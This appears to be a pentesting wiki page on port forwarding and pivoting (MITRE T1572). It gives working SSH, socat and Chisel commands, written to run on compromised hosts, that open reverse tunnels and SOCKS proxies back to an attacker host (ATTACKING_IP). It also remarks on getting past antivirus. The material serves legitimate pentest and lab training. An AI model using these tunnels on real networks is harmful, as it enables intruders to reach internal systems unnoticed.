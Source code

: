 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# Port Forwarding

## Theory

Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice

### SSH tunneling

SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.\
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.

This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.

```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.

On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```bash
PC> ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT

We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows.

{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %}

{% tabs %}
{% tab title="Forward" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.

```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
First of all, on our own attacking machine, we issue the following command:

```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:

```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Now throught `localhost:8000` we can access `172.16.0.10:80`

```bash
#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}

### CHISEL

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).

{% tabs %}
{% tab title="Reverse Proxy" %}
We can do a Reverse Proxy with Chisel. This connects back from a compromised server to a listener waiting on our attacking machine:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
{% endtab %}

{% tab title="Forward Proxy" %}
We can do a Forward Proxy with Chisel

```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}

{% tab title="ProxyChain" %}
A little reminder on how to use the proxy with ProxyChain. To use it you just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 1080
```
{% endtab %}

{% tab title="Reverse Forward" %}
To do a reverse port forwarding with chisel, we can do as follow:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command to. It will forward every requests sent to 8889 on the attacking host to the compromised host on localhost:6666

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:8889:localhost:6666
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}

{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}

{% embed url="https://tryhackme.com/room/wreath" %}
